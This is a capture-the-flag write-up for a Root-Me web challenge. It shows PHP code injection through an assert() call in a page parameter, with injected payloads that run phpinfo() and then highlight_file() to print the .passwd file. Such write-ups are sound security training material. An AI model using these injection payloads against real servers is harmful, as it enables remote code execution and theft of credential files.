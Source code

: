 By navigating on the website, we see that the pages are request via the variable ?page=YOUR_PAGE.
Like we did in Directory Traversal, we can try to enter ./, to open the current folder.
We get the following error message:

```
'includes/./.php'File does not exist
```

We certainly have something like a
```
include('$GET_[YOUR_PAGE].php')
```
 somewhere. Let's try to put a single quote in the name of our page, to try to inject the current PHP.

 http://challenge01.root-me.org/web-serveur/ch47/?page=%27 returns the following error code: (%27 is a single quote ')
 ```
 Parse error: syntax error, unexpected T_CONSTANT_ENCAPSED_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8
 ```

We see that the assert function is now creating an error. The assert function was used to make sure that we did not entered any .. in our YOUR_FILE

We should be able to inject that. http://challenge01.root-me.org/web-serveur/ch47/?page=%27.phpinfo().%27 create the following command in the PHP code:

```
strpos('includes/'.phpinfo().'.php', '..') === false
```

**phpinfo()** is executed, and we successfully made a php injection !

We can now inject something that is going to give us the content of .passwd.

http://challenge01.root-me.org/web-serveur/ch47/?page=%27.highlight_file(%22.passwd%22).%27

The password is now printed on the screen !
